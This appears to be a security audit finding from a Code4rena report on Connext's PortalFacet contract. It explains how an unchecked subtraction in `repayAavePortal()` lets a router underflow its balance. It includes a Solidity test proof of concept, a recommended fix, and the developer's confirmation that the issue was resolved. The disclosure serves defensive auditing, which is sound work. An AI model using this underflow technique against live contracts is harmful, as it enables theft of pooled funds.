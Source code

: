 So the `amountIn` value returned by `swapFromLocalAssetIfNeededForExactOut()` is the `totalAmount` value that was passed to it. And `totalAmount == _backingAmount + _feeAmount`.

Meaning the `amountIn` value is user-specified for this edge case. Finally, we reach the following line:

```sol
    unchecked {
      s.routerBalances[msg.sender][_local] -= amountIn;
    }
```

`amountIn` (user-specified) is subtracted from the `routerBalances` in an `unchecked` block. Thus, the attacker is able to trigger an underflow and increase their balance arbitrarily high. The `repayAavePortal()` function only verifies that `routerBalance < _maxIn`.

Here's a test as PoC:

```sol
// PortalFacet.t.sol

  function test_PortalFacet_underflow() public {
    s.routerPermissionInfo.approvedForPortalRouters[router] = true;

    uint backing = 2 ether;
    uint fee = 10000;
    uint init = 1 ether;

    s.routerBalances[router][_local] = init;
    s.portalDebt[_id] = backing;
    s.portalFeeDebt[_id] = fee;

    vm.mockCall(s.aavePool, abi.encodeWithSelector(IAavePool.backUnbacked.selector), abi.encode(true));
    vm.prank(router);
    this.repayAavePortal(_local, backing, fee, init - 0.5 ether, _id);

    // balance > init => underflow
    require(s.routerBalances[router][_local] > init);
  }
```

### Recommended Mitigation Steps

After the call to `swapFromLocalAssetIfNeededForExactOut()` you should add the following check:

```sol
if (_local == adopted) {
  require(routerBalance >= amountIn);
}
```

**[LayneHaber (Connext) confirmed and resolved](https://github.com/code-423n4/2022-06-connext-findings/issues/68#issuecomment-1167501711):**
 > [connext/nxtp@ac95c1b](https://github.com/connext/nxtp/pull/1450/commits/ac95c1b987c34862e106fc7d643fb8bb7ebb053e)
